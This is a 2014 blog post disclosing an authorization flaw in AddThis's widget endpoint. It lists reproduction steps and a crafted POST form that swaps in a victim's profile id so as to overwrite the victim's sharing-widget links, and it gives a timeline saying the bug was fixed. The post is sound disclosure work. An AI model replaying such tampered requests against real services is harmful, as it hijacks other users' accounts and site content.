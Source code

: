 ```yaml
---
layout: post
title:  "Disclosure: How I'm able to take control of any Addthis.com user account!"
date:   2014-10-11 10:04:22
categories: responsible-disclosure
permalink: post/how-im-able-to-take-control-of-any-addthis-com-account/
---
```


### Description

During publishing this site I've added the Addthis.com plugin (one of the most popular plugin) for sharing content etc.. I'm was surprised when I discovered that I'm able to take complete control of any user account!.

> AddThis is the world's largest content sharing and social insights platform:
>
> 1. Easy-to-use tools help users to share your content and drive viral traffic
> 2. In-depth analytics provide insight into your audience and user activity
> 3. Powerful APIs let you create your own UI, access analytics, and more
> 

### Proof of Concept:

User_X = **ra-5438e922313abc3a** Attacker  
User_Y = **ra-538ce0c960e04da4** Victim  

`ra-XXXXXXXXXXXXXXXX reference to User ProfileId`

1. **User_X** visit the website of **User_Y** that use **Addthis plugin**  
2. **User_X** inspect the page source code and search for profileid string **ra-538ce0c960e04da4** of **User_Y**
3. **User_X login** into his Addthis.com account (**ra-5438e922313abc3a** was assigned to **User_X**)
4. **User_X** make a **POST Request** to:  **<a href="https://www.addthis.com/meta-data/boost-create-widget" title="AddThis - boost-create-widget" target="_blank">https://www.addthis.com/meta-data/boost-create-widget</a>** \\
endpoint with **crafted header**  ([Live HTTP Headers](https://addons.mozilla.org/it/firefox/addon/live-http-headers/ "Live HTTP Headers")) using method `boost-create-widget`
5. **Before User_X make a POST Request**, The **pub property** need to be changed with vulnerable site property value (ex. **(User_X) ra-5438e922313abc3a => (User_Y) ra-538ce0c960e04da4**)

#### Example POST Request Header

{% highlight http %}
Remote Address:208.49.103.220:443
Request URL:https://www.addthis.com/meta-data/boost-create-widget
Request Method:POST
Status Code:200 OK
Request Headersview parsed
POST /meta-data/boost-create-widget HTTP/1.1
Host: www.addthis.com
Connection: keep-alive
Content-Length: 1070
Pragma: no-cache
Cache-Control: no-cache
Accept: */*
[..]
{% endhighlight %}

#### Crafted POST Form Data

{% highlight http %}
pub:ra-538ce0c960e04da4      // (User_X) ra-5438e922313abc3a => (User_Y) ra-538ce0c960e04da4
template:_default
widget[enabled]:true
widget[title]:Follow
widget[size]:large
widget[orientation]:vertical
widget[elements]:.addthis_vertical_follow_toolbox
widget[id]:flwv
widget[services][0][id]:pwned
widget[services][0][service]:facebook
widget[services][0][svc]:facebook
widget[services][0][name]:Facebook
widget[services][0][url]:http://www.facebook.com/pwned
widget[services][1][id]:pwned
widget[services][1][service]:twitter
widget[services][1][svc]:twitter
widget[services][1][name]:Twitter
widget[services][1][url]:http://twitter.com/intent/follow?source=followbutton&variant=1.0&screen_name=pwned
widget[services][2][id]:pwned
widget[services][2][service]:linkedin
widget[services][2][svc]:linkedin
widget[services][2][name]:LinkedIn
widget[services][2][url]:http://www.linkedin.com/in/pwned 
{% endhighlight %}

Now **User_X** receive a `201 response`.  
While in, the **User_Y** website plugin data get updated with **pwned** property value setted by **User_X**.

Note that, a malicious user can perform any request through vulnerable user pub property id value.  
In addition, the website **Addthis.com is devoid largely** of controls **CSRF** for this reason there's no proof of concept, It is really clear..

### Example video scenario using Addthis "/boost-create-widget" method

<div class="photo_frame_center">
	<video width="480" height="360" controls>
		Sorry, your browser doesn't support embedded videos, 
		but don't worry, you can <a href="/video/security/responsible-disclosure/addthis-vulnerability.ogv">Download It</a>
		and watch it with your favorite video player!
		<source src="/video/security/responsible-disclosure/addthis-vulnerability.ogv" type='video/ogg; codecs="theora, vorbis"'>
	</video>
</div>

Watch in <a href="https://www.youtube.com/watch?v=RRkDVY97D88" class="lighter-red" title="How I'm able to take control of any Addthis.com user account!" target="_blank">YouTube</a>

### Disclosure:

* **10/10/2014** – Report to Addthis Support
* **13/10/2014** – Received a response from Addthis Support
* **14/10/2014** – Reply from Addthis that informs me that the bug was fixed
* **14/10/2014** – Public disclosure
